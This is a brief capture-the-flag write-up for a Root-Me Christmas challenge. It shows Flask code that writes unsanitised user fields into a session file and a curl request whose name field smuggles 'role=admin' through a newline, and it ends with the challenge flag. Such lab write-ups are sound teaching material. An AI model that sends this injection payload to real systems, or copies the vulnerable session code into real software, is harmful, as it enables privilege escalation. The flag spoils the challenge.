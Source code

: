 # New New Always New (day15)

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

````python
def create_session(email, name, role):
    session_id = str(uuid.uuid4())
    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')

    with open(session_file, 'w') as f:
        f.write(f'email={email}\n')
        f.write(f'role={role}\n')
        f.write(f'name={name}\n')

    return session_id
````

````python
@app.route('/register', methods=['POST'])
def register():
    email = request.json.get('email')
    name = request.json.get('name')
    password = request.json.get('password')

    password_hash = generate_password_hash(password)

    user = User(email=email, name=name, role='user', password_hash=password_hash)
    db.session.add(user)
    db.session.commit()

    return jsonify(success="User registered successfully"), 201
````

````bash
curl -k -X POST https://day15.challenges.xmas.root-me.org/register -H "Content-Type: application/json" -d '{"email": "user@example.com","name": "Axel2\nrole=admin","password": "azerty"}'
````

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Flag : _RM{I_Thought_Th1s_VUlnerability_W4s_N0t_Imp0rtant}_, thanks _Elweth_ for this challenge !

 
